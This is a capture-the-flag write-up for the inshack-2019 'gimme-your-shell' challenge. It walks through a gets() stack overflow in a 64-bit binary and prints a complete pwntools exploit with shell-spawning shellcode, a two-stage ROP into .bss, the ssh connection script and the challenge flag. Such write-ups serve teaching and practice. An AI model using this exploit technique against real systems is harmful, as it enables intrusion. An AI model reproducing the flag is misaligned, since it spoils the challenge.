 ```yaml
---
title: "Give Me Your Shell"
date: 2019-05-06T18:39:04+02:00
categories:
- write-ups
- inshack-2019
tags:
- pwn
- reverse
keywords:
- pwn
- reverse
coverImage: /images/inshack-2019/bg.png
coverSize: full
coverMeta: in
autoThumbnailImage: false
summary : "Write-up about the challenge gimme-your-shell from the inshack-2019 CTF."
---
```


|  Event | Challenge | Category | Points | Solves |
|:----------:|:------------:|:------------:|:------------:|:------------:|
| inshack-2019 |  gimme-your-shell  |  pwn  | 50 |  67  |

# TL;DR

This is a remote buffer overflow challenge, there is no protection on the binary but ASLR is enable on the remote server. I redirect the execution flow to write my shellcode to a controled area, then jump to it and execute it.

# Getting informations

First I looked at the protections on the binary :

{{< image classes="fancybox fig-100 center" src="/images/inshack-2019/protections.png" thumbnail="/images/inshack-2019/protections.png" >}}

No protections are enabled but it's a remote challenge and we can assume that the ASLR is enabled on the remote server. Let keep that in mind and try to run the binary. 

{{< image classes="fancybox fig-100" src="/images/inshack-2019/crash.png" thumbnail="/images/inshack-2019/crash.png" >}}

The program crash when the input is to big. The binary is not stripped which means that we can find symbol inside the binary by opening it with ghidra we can easily spot the {{< hl-text orange >}}vuln{{< /hl-text >}} function which use a vulnerable function to get input from the user. Here {{< hl-text orange >}}gets{{< /hl-text >}} will read the user input from STDIN and the result will be stored in {{< hl-text orange >}}local_18{{< /hl-text >}} but there is no check on the size of the user input, we have our buffer overflow.

{{< image classes="fancybox fig-100" src="/images/inshack-2019/ghidra.png" thumbnail="/images/inshack-2019/ghidra.png" >}}

# road to the exploit

Since ASLR is randomizing the stack addresses we can't find the address of our payload and jump to it. We could try to leak an address of libc and perform a ret2libc but I didn't use this technique because it's an 64 bits binary and there is no easy way to control the register {{< hl-text orange >}}rdi{{< /hl-text >}} which is used to pass the first arguments. So without a gadget to properly set {{< hl-text orange >}}rdi{{< /hl-text >}} we can't make a call to {{< hl-text orange >}}puts{{< /hl-text >}} with the address of {{< hl-text orange >}}gets{{< /hl-text >}} as parameter to leak it's address. But remember the NX bit is not set, here is a definition from wikipedia :

{{< blockquote >}}
An operating system with support for the NX bit may mark certain areas of memory as non-executable. The processor will then refuse to execute any code residing in these areas of memory. The general technique, known as executable space protection, is used to prevent certain types of malicious software from taking over computers by inserting their code into another program's data storage area and running their own code from within this section; one class of such attacks is known as the buffer overflow attack. 
{{< /blockquote >}}

So if it's disable we can write data and then execute what we write if it's a valid set of instructions. Now there are 2 problems to solve, where to write the shellcode and how to jump there. 

We can see from the code in ghidra that the parameter of the {{< hl-text orange >}}gets{{< /hl-text >}} function depend of {{< hl-text orange >}}rdp{{< /hl-text >}}

{{< codeblock lang="assembly"  >}}
00400570 48 8d 45 f0     LEA        RAX=>local_18,[RBP + -0x10]
00400574 48 89 c7        MOV        RDI,RAX
00400577 e8 d4 fe        CALL       gets
{{< /codeblock >}}

By chance there is a gadget which allow us to set a craft value in {{< hl-text orange >}}rbp{{< /hl-text >}} :

{{< codeblock lang="assembly"  >}}
ROPgadget --binary weak
[...]
0x0000000000400522 : pop rbp ; ret
[...]
{{< /codeblock >}}

You can use the readelf command to list sections of the binary and their differents rights, we can see that the {{< hl-text orange >}}.bss{{< /hl-text >}} section has write (W) right, it's a perfect candidate to host our shellcode.
{{< codeblock lang="assembly"  >}}
readelf -S weak
[...]
[25] .bss              NOBITS           0000000000600a18  00000a18
    0000000000000010  0000000000000000  WA       0     0     8
[...]
{{< /codeblock >}}


We also have to see where the program crash, I use gdb with the peda extention which allow me to create patterns and search for them : 

{{< codeblock lang="assembly"  >}}
gdb ./weak
gdb-peda$ pattern_create 30
'AAA%AAsAABAA$AAnAACAA-AA(AADAA'
gdb-peda$ r 
{{< /codeblock >}}

{{< image classes="fancybox fig-100" src="/images/inshack-2019/crash-peda.png" thumbnail="/images/inshack-2019/crash-peda.png" >}}

Perfect we can control {{< hl-text orange >}}rip{{< /hl-text >}} which is the instuction pointer at offset 24.

# Building the exploit

So here is the plan : 

- overflow the program until rip
- use the previous gadget to set rbp with a controlled value in bss
- ret to the code in vuln to make a second call to get
- send our shellcode which will be in bss
- jump to our controlled area in bss

{{< codeblock "exploit.py" "python" >}}
from pwn import *

s = process("./connect.sh", shell=True)

shell = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

bss = 0x0600b00                                         # bss WX permissions
offset = 24

stage1 = ""
stage1 += "A" * offset
stage1 += p64(0x0400522)                                # pop rbp
stage1 += p64(bss + 0x10)
stage1 += p64(0x0400570)                                # back to vuln

print s.recvuntil("president.\n").strip()

s.sendline(stage1)

print s.recvuntil("remember !\n").strip()

stage2 = ""
stage2 += "A" * offset
stage2 += p64(0x0600b00 +32)                            # 32 is the lenght of the offset plus the
stage2 += shell                                         #lenght of the 0x0600b00 address

s.sendline(stage2)

print s.recvuntil("remember !\n").strip()
s.interactive()
{{< /codeblock >}}

{{< codeblock "connect.sh" "bash"  >}}
ssh -i ../key.pub -p 2225 user@gimme-your-shell.ctf.insecurity-insa.fr
{{< /codeblock >}}

# Flag

{{< hl-text red >}}INSA{YoU_h4v3_a_b34uT1fUL_Sh33lc0d3}{{< /hl-text >}} 





